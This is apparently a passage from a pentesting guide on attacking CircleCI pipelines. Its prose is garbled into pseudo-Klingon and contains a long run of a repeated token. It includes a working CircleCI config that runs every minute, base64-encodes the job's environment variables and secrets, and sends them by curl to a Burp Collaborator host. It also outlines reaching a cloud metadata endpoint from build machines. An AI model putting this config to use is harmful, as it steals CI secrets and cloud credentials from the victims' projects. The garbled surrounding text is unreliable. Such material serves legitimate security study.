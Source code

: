 **ghItlhvam** **web console** **ghItlhvam** **repo** **'ej** CircleCI **vay'** **vItlhutlh** **workflow** **'ej** **vItlhutlh** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej** **'ej
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Qa'wI' `.circleci/config.yml` file jImej **circleci build** chaw' 'e' vItlhutlh. **circleci console** vItlhutlh.
{% endhint %}

### Escape to Cloud

**CircleCI** vItlhutlh **machines Hoch 'ej Hoch** **your builds** vaj **run**.\
**machines Hoch** GCP, 'ej initially relevant vItlhutlh. However, **victim** **tasks** **machines Hoch** **(potentially, cloud env)**, **cloud metadata endpoint** **interesting information** vItlhutlh.

**previous examples** launched **docker container** 'e' vItlhutlh, **VM machine** **launch** **ask** **(different cloud permissions)**:
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
**Or even a docker container with access to a remote docker service:**
